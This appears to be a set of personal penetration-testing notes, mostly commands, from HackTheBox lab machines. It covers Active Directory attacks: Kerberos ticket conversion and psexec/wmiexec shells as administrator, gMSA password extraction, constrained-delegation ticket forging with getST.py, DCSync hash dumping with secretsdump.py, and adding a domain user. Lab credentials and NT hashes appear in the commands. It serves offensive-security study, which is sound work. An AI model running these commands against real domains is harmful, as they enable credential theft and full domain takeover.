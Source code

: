```
on kali:
```
base64 -d ticket.kirbi.b64 > ticket.kirbi
```
- base64 decode and save as ticket.kirbi
```
ticketConverter.py ticket.kirbi ticket.ccache
```
- save ticket in cacheable format
```
KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```
- saves ticket in cash and get shell as administrator


***ReadGMSAPassword privilege in Bloodhound***
can confirm account is a service account with GMSA enabled
```
Get-ADServiceAccount -Filter * | where-object {$_.ObjectClass -eq "msDS-GroupManagedServiceAccount"}
```
- Will list service accounts and ObjectClass will say msDS-GroupmanageServiceAccount if GMSA is enabled
get more insight into the group that manages this service account, import PowerView.ps1, then run:
```
Get-ADServiceAccount -Filter {name -eq 'svc_apache'} -Properties * | Select CN,DNSHostName,DistinguishedName,MemberOf,Created,LastLogonDate,PasswordLastSet,msDS-ManagedPasswordInterval,PrincipalsAllowedToDelegateToAccount,PrincipalsAllowedToRetrieveManagedPassword,ServicePrincipalNames
```
- will show service account/user `svc_apache` and the groups that have this permission under `PrincipalsAllowedToDelegateToAccount` with CN=
	- check who's a member of that group with 
```
Get-ADGroupMember 'Web Admins'
```
extract hash from user listed (need shell as another user and upload tool):
```
.\GMSAPasswordReader.exe --accountname svc_apache$
```
- current value rc4_mac is the NT hash
extract hash from user's listed in above command (need creds)
```
python3 gMSADumper.py -u ted.graves -p Mr.Teddy -l intelligence.htb -d intelligence.htb
```
forge ticket from delegated service, pass ticket from previous command:
```
getST.py -dc-ip 10.129.227.54 -spn www/dc.intelligence.htb -hashes :51e4932f13712047027300f869d07ab6 -impersonate administrator intelligence.htb/svc_int
```
shell via cached ticket (caches automatically from previous command):
```
KRB5CCNAME=administrator.ccache wmiexec.py -k -no-pass administrator@dc.intelligence.htb
```
- make sure `dc.intelligence.htb` is added to `/etc/host` before running

DC Sync Attack  ^8bdeef
- requirements: user creds with DCSync privileges
```
secretsdump.py -just-dc egotistical-bank.local/svc_loanmgr:Moneymakestheworldgoround\!@10.129.102.130
```
- will return admin hash
	- take part of hash after `:` and pass-the-hash with `-H` via `nxc` or `evil-winrm`
Can create new user to perform DC Sync if needed:
- `. .\PowerView.ps1`
- `net user zeus password /add /domain`
- `net users /domain`
```